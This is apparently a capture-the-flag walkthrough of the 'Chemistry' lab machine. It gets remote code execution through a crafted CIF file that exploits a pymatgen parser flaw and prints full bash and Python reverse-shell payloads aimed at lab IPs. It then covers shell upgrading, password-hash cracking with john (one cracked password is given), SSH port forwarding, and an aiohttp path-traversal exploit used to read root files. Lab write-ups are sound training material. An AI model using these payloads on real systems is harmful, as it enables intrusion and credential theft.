 ## Chemistry
![Alt text](/assets/2025-03-18-Chemistry//assets/2025-03-18-Chemistry/image-25.png)  
# Walkthrough
First we do a nmap scan:  
![Alt text](/assets/2025-03-18-Chemistry/image.png)  
Two ports open:  22 and 5000. Some service is hosted on the port 5000.  
![Alt text](/assets/2025-03-18-Chemistry/image-1.png)  
Before trying to navigate the webapp, i launched a fuzz scan to look if any subdirectory can be found at that address.  
![Alt text](/assets/2025-03-18-Chemistry/image-2.png)  
Five findings: login, logout, register, dashboard and upload.  I'll keep that in mind for later.  
  
The webapp seems to host an application to analyze CIF files, some file format used to store and analyze crystallographic informations.  
It's possible to register a new user:  
![Alt text](/assets/2025-03-18-Chemistry/image-3.png)  
On this page it's possible to upload a new CIF file. The first thing that came up in my mind was the possibility of uploading a reverse shell, but I  need two things:  
1) The possibility of creating one in this CIF file --> I have to analyze how a CIF file is formatted;  
2) The possibility to call the file on the remote server once uploaded;  
  
Fortunately, there is a demo file that can be downloaded on the webapp. I did that and saw the CIF format:  
![Alt text](/assets/2025-03-18-Chemistry/image-4.png)  
Not too easy.  
For the second point I tried to reupload this file to see how it was stored on the webapp:  
![Alt text](/assets/2025-03-18-Chemistry/image-5.png)  
And then by clicking on "view":  
![Alt text](/assets/2025-03-18-Chemistry/image-6.png)  
So a new subdirectory is created at each upload and it is possible to reach it with a GET request.  
The answer to the secont point is then solved, but still it's not clear if it is really possible to upload a reverse shell in this CIF format.  
Before diving into (lots) of web browsing, I tried to see if there is a sanitization of the file uploading. If not, I can simply upload a php web shell saving lots of time.  
![Alt text](/assets/2025-03-18-Chemistry/image-7.png)  
That was the server's answer.  
I then tried to do the same thing but with Burp in the middle, to analyze the packet exchange and see if something useful pops up.  
As long as I could see, there was nothing useful. The only thing to notice was that to delete a file there is a call to the API */delete_structure/{ID}*. Also probably the files are only stored for one session.   
  
At this point I had to check if there exist the possibility of hide a reverse shell in this type of format.  
I found this repo:  https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f.  
It's possible to hide code inside the CIF file that will allow a remote code execution.  
I copy-pasted the code and hide inside the code to open a bash reverse shell:  
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -i >& /dev/tcp/10.10.14.221/4444 0>&1");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  
There is a problem: with this code, also after putting a netcat shell on listening, I couldn't get a reverse shell.  
Struggled a bit, but then I thought that maybe the remote shell isn't a bash shell. Because this vulnerability is possible because exploits a python module, I tried to do the same, but with a python reverse shell: 
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.11.221",4444)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  

Neither this is working. After (too) many tries I simply discovered that there was a formatting problem in the first exploit tried.  
In the end, i got a reverse shell in bash...  
![Alt text](/assets/2025-03-18-Chemistry/image-8.png)  
I proceded to upgrade the shell with the classical:  
```python
script /dev/null -c /bin/bash
^Z
stty raw -echo; fg
*and then inputing "screen"*
```  
There is a user called *rosa* with the user flag, but my user (app) can't read it. I have to do some enumeration.  
![Alt text](/assets/2025-03-18-Chemistry/image-9.png)  
I tried to cat some evergreen files, as /etc/hosts /etc/shadow /etc/passwd, but there is nothing useful. Also, sudo does exist, but i don't know the password yet. 
I found a file called *app.py* with a password (of the Flask app) in cleartext:  
![Alt text](/assets/2025-03-18-Chemistry/image-10.png)  
Tried to see if that is the sudo password, but unfortunately that is not the case.  
I didn't know the use of the Flask secret key, but i read that *"Secret key is only used to protect user session data in flask, afaik. As in - cookies and whether user is logged in or not, it usually does not protect very sensitive information. And its not generally used to protect any persistent information. Meaning you can just generate this key randomly at startup."*, so it shouldn't be very useful unfortunately.  
But there is a sqlite3 database somewhere. Found it in a directory and analyzed the content:  
![Alt text](/assets/2025-03-18-Chemistry/image-11.png)  
There I found the user credentials, with the password hashed:  
![Alt text](/assets/2025-03-18-Chemistry/image-12.png)  
I decrypted the rosa password using john and the wordlist rockyou.txt. The password is **unicorniosrosados**.  
I could login via ssh with the rosa's credentials and was able to get the user flag:  
![Alt text](/assets/2025-03-18-Chemistry/image-13.png)


## Privilege escalation
It could be useful for later, let's keep in mind that other hashes were stored in the user table in the sqlite database (also the admin ones).  
Tried to do some basic PE checks, but user rosa is not in the sudoers.  
I transfered the linpeas script on rosa and launched it. I also started the hash cracking on the other hashes found in the database.  
![Alt text](/assets/2025-03-18-Chemistry/image-14.png)  
![Alt text](/assets/2025-03-18-Chemistry/image-15.png)  
I already encountered that CVE, but that doesn't really lead to anything useful.  
Other than that, linpeas couldn't find other interesting findings.  
John found these other credentials, got to see if one of this belongs to the admin:  
![Alt text](/assets/2025-03-18-Chemistry/image-16.png)  
None of this users has access to the machine (also verifiable by looking at /etc/hosts), but maybe these credentials could be useful later on.  
  
By lookin again at the linpeas report, I noticed a running service on port 8080:  
![Alt text](/assets/2025-03-18-Chemistry/image-17.png)  
I couldn't access it from the external network, so I had to do some pivoting. Socat of course was not installed, so i simply did a port forwarding:  
![Alt text](/assets/2025-03-18-Chemistry/image-18.png)  
The command should be:  
```python
ssh -L -N 5544:localhost:8080 rosa@10.10.11.38
```  
![Alt text](/assets/2025-03-18-Chemistry/image-19.png)  
  
From this new webapp I can only see the running and stopped services on the remote machine:  
![Alt text](/assets/2025-03-18-Chemistry/image-20.png)  
I looked at these services looking for something suspicious, but i could't get anything useful.  
I then tried to nmap this new discovered port:  
![Alt text](/assets/2025-03-18-Chemistry/image-21.png)  
The nmap discoveres the aiohttp version 3.9.1. I took a look online to find known CVE and i found:  https://github.com/wizarddos/CVE-2024-23334  
  
I should be able to read a arbitrary files with this PoC.  
To make it work I need a static directory on the remote application. I did a brief fuzzing:  
![Alt text](/assets/2025-03-18-Chemistry/image-22.png)  
  
And then launched the script:  
![Alt text](/assets/2025-03-18-Chemistry/image-23.png)  
The scripts works as I'm able to read the /etc/hosts. Let's capture the root flag! 
  
![Alt text](/assets/2025-03-18-Chemistry/image-24.png)




